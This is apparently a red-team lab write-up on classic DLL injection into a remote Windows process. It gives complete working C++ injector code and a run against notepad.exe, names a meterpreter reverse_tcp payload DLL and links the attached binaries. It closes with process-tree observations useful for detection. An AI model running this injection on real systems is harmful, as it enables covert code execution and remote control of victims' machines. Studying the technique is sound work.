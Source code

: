 ```yaml
---
description: Injecting DLL into a remote process.
---
```


# DLL Injection

This lab attempts a classic DLL injection into a remote process.

## Execution

{% code title="inject-dll.cpp" %}
```cpp
int main(int argc, char *argv[]) {
    HANDLE processHandle;
    PVOID remoteBuffer;
    wchar_t dllPath[] = TEXT("C:\\experiments\\evilm64.dll");

    printf("Injecting DLL to PID: %i\n", atoi(argv[1]));
    processHandle = OpenProcess(PROCESS_ALL_ACCESS, FALSE, DWORD(atoi(argv[1])));
    remoteBuffer = VirtualAllocEx(processHandle, NULL, sizeof dllPath, MEM_COMMIT, PAGE_READWRITE);    
    WriteProcessMemory(processHandle, remoteBuffer, (LPVOID)dllPath, sizeof dllPath, NULL);
    PTHREAD_START_ROUTINE threatStartRoutineAddress = (PTHREAD_START_ROUTINE)GetProcAddress(GetModuleHandle(TEXT("Kernel32")), "LoadLibraryW");
    CreateRemoteThread(processHandle, NULL, 0, threatStartRoutineAddress, remoteBuffer, 0, NULL);
    CloseHandle(processHandle); 

    return 0;
}
```
{% endcode %}

Compiling the above code and executing it with a supplied argument of `4892` which is a PID of the notepad.exe process on the victim system:

{% code title="attacker@victim" %}
```csharp
PS C:\experiments\inject1\x64\Debug> .\inject1.exe 4892
Injecting DLL to PID: 4892
```
{% endcode %}

After the DLL is successfully injected, the attacker receives a meterpreter session from the injected process and its privileges:

![](../../.gitbook/assets/inject-dll-shell.png)

{% file src="../../.gitbook/assets/inject1.exe" caption="DLL injector.exe" %}

{% file src="../../.gitbook/assets/evilm64.dll" caption="c:\\experiments\\evilm64.dll \(windows/x64/meterpreter/reverse\_tcp\)" %}

## Observations

Note how the notepad spawned rundll32 which then spawned a cmd.exe because of the meterpreter payload \(and attacker's `shell` command\) that got executed as part of the injected evilm64.dll into the notepad process:

![](../../.gitbook/assets/inject-dll.png)

![](../../.gitbook/assets/inject-dll-procmon.png)

## References

{% embed url="https://msdn.microsoft.com/en-us/library/windows/desktop/ms683212\(v=vs.85\).aspx" caption="" %}

{% embed url="https://msdn.microsoft.com/en-us/library/windows/desktop/ms684175\(v=vs.85\).aspx" caption="" %}

